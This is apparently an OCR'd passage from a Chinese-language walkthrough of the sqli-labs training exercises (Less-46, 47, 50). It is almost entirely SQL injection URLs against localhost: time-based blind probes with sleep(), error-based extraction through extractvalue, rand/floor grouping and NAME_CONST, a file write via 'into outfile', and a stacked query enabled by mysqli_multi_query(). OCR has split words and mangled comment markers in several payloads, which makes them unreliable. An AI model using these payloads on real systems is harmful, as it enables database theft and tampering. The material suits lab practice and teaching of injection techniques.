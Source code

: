 http://127.0.0.1/sqllib/Less-46/?sort=1%20and%20If(ascii(substr(database(),1,1))=116,0,sleep(5))

http://127.0.0.1/sqli-labs/Less-46/?sort=1%20%20procedure%20analyse(extractvalue(rand(),con cat(0x3a,version())),1)

http://127.0.0.1/sqllib/Less-46/?sort=1%20into%20outfile%20%22c:\wamp\www\sqllib\test 1.txt%22

http://127.0.0.1/sqli-labs/Less-47/index.php?sort=1% 27and%20rand(ascii(left(database(),1))=115)–+

http://127.0.0.1/sqli-labs/Less-47/index.php?sort=1%27and%20rand(ascii(left(dat abase(),1))=116)–+

http://127.0.0.1/sqli-labs/Less-47/?sort=1%27and%20(select%20count(*)%20from%20informati on_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(ran d()*2)))–+

http://127.0.0.1/sqli-labs/Less-47/?sort=1%27and%20(select%20*%20from%20(select%20NAME _CONST(version(),1),NAME_CONST(version(),1))x)–+

http://127.0.0.1/sqli-labs/Less-47/?sort=1%27and%20If(ascii(substr(database(),1,1))=115,0,sleep (5))–+

### mysqli_multi_query()函数

执行 sql 语句我们这里使用的是 mysqli_multi_query()函数，而之前我们使用的是 mysqli _query()，区别在于 mysqli_multi_query()可以执行多个 sql 语句，而 mysqli_query()只能执行 一个 sql 语句，那么我们此处就可以执行多个 sql 语句进行注入，也就是我们之前提到的 sta tcked injection。

http://127.0.0.1/sqli-labs/Less-50/index.php?sort=1;create%20table%20less50%20like%20users